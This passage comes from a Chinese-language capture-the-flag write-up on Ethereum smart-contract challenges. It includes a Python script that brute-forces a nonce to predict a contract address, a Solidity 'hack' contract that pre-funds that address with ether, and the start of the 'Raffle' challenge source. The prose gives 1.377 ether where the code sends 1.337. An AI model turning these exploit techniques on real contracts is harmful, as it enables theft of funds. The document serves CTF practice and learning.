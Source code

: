 ```
        #print(rlp_res)
        sha3_res = utils.mk_contract_address(address,nonce)
        #print(sha3_res)
        sha3_res_de = utils.decode_addr(sha3_res)
        #print("contract_address: " + sha3_res_de)
        if sha3_res_de==mubiao:
            print("Right:`{``}`".format(i))
            break
str='1903a99b906943dc56fca3f652e799493ae82054'
str1='7d30443753e0eb8f217da3201b721f9b28ff57b8'
str2='81f19dee034dd328cae528bbd5b8f6bc964c69ee'
#hack(str)
#hack(str1)
#hack(str2)
calc(1)
```

[![](https://p0.ssl.qhimg.com/t016faf9a8b9178cfde.png)](https://p0.ssl.qhimg.com/t016faf9a8b9178cfde.png)

上面的nonce 没看懂怎么算，考虑爆破出nonce 注意在 etherscan 上字母有大小写。 记得跑python 时候全部改成小写

通过如此可以算出来了。

然后提前转账 1.377 ether

然后直接at address 后直接调用 addFundManager

```
pragma solidity 0.4.24;
contract hack`{`
    address target= 算出来debug 合约地址;
    constructor ()payable
    `{`
        target.transfer(1.337 ether);
    `}`
    function() payable`{``}`
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b97bf0bc13f1adee.png)

## Raffle

这个题目有点像华为第三场的那题。

```
contract Raffle is CtfFramework`{`

    uint256 constant fee = 0.1 ether;

    address private admin;

    bytes4 private winningTicket;
    uint256 private blocknum;

    uint256 public ticketsBought;
    bool public raffleStopped;

    mapping(address=&gt;uint256) private rewards;
    mapping(address=&gt;bool) private potentialWinner;
    mapping(address=&gt;bytes4) private ticketNumbers;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
```